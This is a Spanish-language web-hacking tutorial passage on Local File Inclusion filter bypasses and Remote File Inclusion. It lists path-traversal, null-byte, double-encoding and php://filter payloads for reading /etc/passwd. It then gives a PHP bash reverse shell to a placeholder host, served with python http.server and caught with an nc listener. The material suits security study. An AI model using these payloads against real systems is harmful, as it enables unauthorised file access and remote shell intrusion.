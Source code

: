 Veamos algunas formas de bypassing, es decir, de eludir estas defensas:

+ `/etc/passwd` -hay veces que la búsqueda parte de la raiz.

+ `file:///etc/passwd` -usando el wrapper file.

+ `../../../../../../etc/passwd`  -La típica, puedes añadir wraper file también.

+ `….//….//….//….//….//….//etc/passwd` -Por si te sustituyen el ../ por nada.

+ `/etc/passwd%00.jpg ` -Uso del bynull, imagina que solo te permite subir archivos terminados con extensión .jpg. El bynull sirve para que no te interprete lo que va después de él, pero en cambio lo lee al comparar. Lo puedes añadir a todas las técnicas anteriores, la cosa es probar.

+ `php://filter/convert.base64-encode/resource=/etc/passwd` -Aunque es más utilizado para archivos php. Se usa para poder ver el código en base64, ya que la web interpreta el archivo y no se visualiza el código.

+ `..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd`  - ¿cómo se llega a esto? Url-encodeas la / ,mandamos petición por si acaso funciona simplemente asi, posiblemente no, entonces url-encodeas el % y te saldrá ya así.

+ `WHITE LIST + técnicas anteriores`  -puede que el código te oblige a poner una ruta, es decir una white list, entonces la añades y desde ahí pruebas.


### **Notas**:

-Recuerda probar otros tipos de ataque en ese input como un SSRF y RFI.

-Hay más formas de eludir mediante LFI, aquí he puesto las principales en mi opinión.

---

### RFI - Remote File Inclusion

Este ataque se parece al LFI visto anteriormente, lo que cambia es que en vez de poder ver contenido de la propia máquina objetivo veremos o accederemos a recursos de otros servidores, incluido recursos que yo pueda crear en mi máquina.  
De esta manera podemos aprovechar el RFI de la máquina víctima para que carge e interprete como si fuera suyo un recurso malicioso.

Un ejemplo:

En esta página encontramos un RFI, la url sería;
`http://mesasysillas/file.php?file=http://miIp/archivoMalicioso.php`

Podemos crearnos un servidor con un php así, llamado por ejemplo reverse.php:

``` php
<?php
system(“bash -c ‘bash -i >& /dev/tcp/MiIp/Mipuerto 0>&1’”);
?>
```

Nos creamos un servidor en python para compartir ese recurso:
``` plaintext
> python3 -m http.server 80
```
Y os ponemos en escucha para recibir la consola:
``` plaintext
> nc -nlvp 443
```
